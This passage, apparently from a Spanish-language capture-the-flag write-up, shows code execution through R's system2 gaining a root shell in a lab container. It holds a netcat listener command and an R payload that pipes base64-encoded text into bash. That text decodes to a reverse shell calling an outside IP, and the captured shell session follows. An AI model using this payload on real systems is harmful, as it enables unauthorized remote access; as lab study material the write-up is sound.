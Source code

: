 [En este post](https://www.r-bloggers.com/2021/09/how-to-use-system-commands-in-your-r-script-or-package) podemos ver como ejecutar comandos a nivel de sistema en `R`

![Write-up Image](images/Screenshot_11.png)


Nos podemos poner en escucha con `netcat`
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Y con el siguiente payload ganar acceso
```R
system2("echo", "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjkxLzQ0MyAwPiYx|base64 -d|bash", stdout = TRUE, stderr = TRUE)
```

Y podemos ver que ganamos acceso como `root` a un contenedor.
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.91] from (UNKNOWN) [10.129.222.158] 56386
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@b06821bbda78:/# whoami
whoami
root
root@b06821bbda78:/# ip a
ip a
bash: ip: command not found
root@b06821bbda78:/# ifconfig
ifconfig
bash: ifconfig: command not found
root@b06821bbda78:/# hostname -I
hostname -I
172.18.0.2 
root@b06821bbda78:/#
```

## Information Leakage
